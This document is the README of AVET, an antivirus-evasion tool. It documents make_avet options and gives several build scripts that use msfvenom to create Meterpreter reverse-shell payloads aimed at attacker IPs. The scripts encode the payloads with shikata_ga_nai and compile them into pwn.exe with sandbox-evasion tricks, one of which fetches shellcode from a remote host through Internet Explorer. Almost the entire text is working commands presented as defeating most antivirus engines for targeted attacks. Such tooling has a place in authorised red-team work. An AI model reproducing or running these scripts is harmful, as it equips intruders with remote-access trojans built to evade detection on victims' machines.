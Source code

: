 How to use make_avet and build scripts
--------------------------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

The purpose of make_avet is to preconfigure a definition file (defs.h) so that the source code can be compiled in the next step. This way the payload will be encoded as ASCII payload or with encoders from metasploit. You hardly can beat shikata-ga-nai.

Let's have a look at the options from make_avet, examples will be given below:
-l load and exec shellcode from given file, call is with mytrojan.exe myshellcode.txt
-f compile shellcode into .exe, needs filename of shellcode file
-u load and exec shellcode from url using internet explorer (url is compiled into executable)
-E use avets ASCII encryption, often do not has to be used
   Note: with -l -E is mandatory
-F use fopen sandbox evasion
-X compile for 64 bit
-p print debug information
-h help

Of course it is possible to run all commands step by step from command line. But it is strongly recommended to use build scripts or the avet_fabric.py.

The build scripts themselves are written so as they have to be called from within the avet directory:
```
root@kalidan:~/tools/avet# ./build/build_win32_meterpreter_rev_https_20xshikata.sh
```

Here are some explained examples for building the .exe files from the build directory. Please have a look at the other build scripts for further explanation.


Example 1
---------
Compile shellcode into the .exe file and use -F as evasion technique. Note that this example will work for most antivirus engines. Here -E is used for encoding the shellcode as ASCII.

```
#!/bin/bash          
# simple example script for building the .exe file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.132 lport=443 -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, the -f compiles the shellcode to the exe file, the -F is for the AV sandbox evasion, -E will encode the shellcode as ASCII
./make_avet -f scclean.txt -F -E
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
rm scclean.txt && echo "" > defs.h
```

Example 2
---------
Usage without -E. The ASCII encoder does not have to be used, here is how to compile without -E. In this example the evasion technique is quit simple! The shellcode is encoded with 20 rounds of 
shikata-ga-nai, often enough that does the trick. This technique is pretty similar to a junk loop. Execute so much code that the AV engine breaks up execution and let the file pass.

```
#!/bin/bash          
# simple example script for building the .exe file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.128 lport=443 -e x86/shikata_ga_nai -i 20 -f c -a x86 --platform Windows > sc.txt
# call make_avet, the sandbox escape is due to the many rounds of decoding the shellcode
./make_avet -f sc.txt
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
echo "" > defs.h
```

Example 3, 64bit payloads
-------------------------
Great to notice that still for 64bit payload no further evasion techniques has to be used. But -F should work here too.

```
#!/bin/bash          
# simple example script for building the .exe file
. build/global_win64.sh
# make meterpreter reverse payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, compile 
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
# cleanup
rm scclean.txt && echo "" > defs.h
```

Example 4, load from a file
---------------------------
Here the ASCII encoder is needed. The executable will load the payload from a text file, which is enough for most AV engines to let the payload execute.

```
#!/bin/bash          
# simple example script for building the .exe file that loads the payload from a given text file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.132 lport=443 -e x86/shikata_ga_nai -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > thepayload.txt && rm sc.txt
# call make_avet, the -l compiles the filename into the .exe file 
./make_avet -l thepayload.exe -E
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
#echo "" > defs.h
# now you can call your programm with pwn.exe, thepayload.txt has to be in the same dir
```


Example 5, load with Internet Explorer
--------------------------------------
This is a bit tricky and might not work on the first shot. The executable will start Internet Explorer and download the ASCII encoded shellcode. Then the shellcode will be read from the cache directory and if found executed. This was tested with Windows 7 only.

```
#!/bin/bash          
# simple example script for building the .exe file
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.2.105 lport=443 -e x86/shikata_ga_nai -i 2 -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, compile 
./make_avet -E -u 192.168.2.105/scclean.txt
$win32_compiler -o pwn.exe avet.c
# cleanup
echo " " > defs.h
# now copy scclean.txt to your web root and start 
```



avet_fabric.py
--------------
avet_fabric is an assistant, that loads all build scripts in the build directory (name has to be build*.sh) and then lets the user edit the settings line by line. This is under huge development.

Example:
```
# ./avet_fabric.py 

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

AVET 1.1 Blackhat Asia 2017 edition
by Daniel Sauder

avet_fabric.py is an assistant for building exe files with shellcode payloads for targeted attacks and antivirus evasion.

0: build_win32_meterpreter_rev_https_shikata_loadfile.sh
1: build_win32_meterpreter_rev_https_shikata_fopen.sh
2: build_win32_meterpreter_rev_https_shikata_load_ie_debug.sh
3: build_win32_shell_rev_tcp_shikata_fopen_kaspersky.sh
4: build_win32_meterpreter_rev_https_20xshikata.sh
5: build_win32_meterpreter_rev_https_shikata_load_ie.sh
6: build_win64_meterpreter_rev_tcp.sh
Input number of the script you want use and hit enter: 6

Now you can edit the build script line by line.

simple example script for building the .exe file
$ . build/global_win64.sh
make meterpreter reverse payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
format the shellcode for make_avet
$ ./format.sh sc.txt > scclean.txt && rm sc.txt
call make_avet, compile
$ ./make_avet -f scclean.txt -X -E
$ $win64_compiler -o pwn.exe avet.c
cleanup
$ rm scclean.txt && echo "" > defs.h

The following commands will be executed:
#/bin/bash
. build/global_win64.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
./format.sh sc.txt > scclean.txt && rm sc.txt
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
rm scclean.txt && echo "" > defs.h
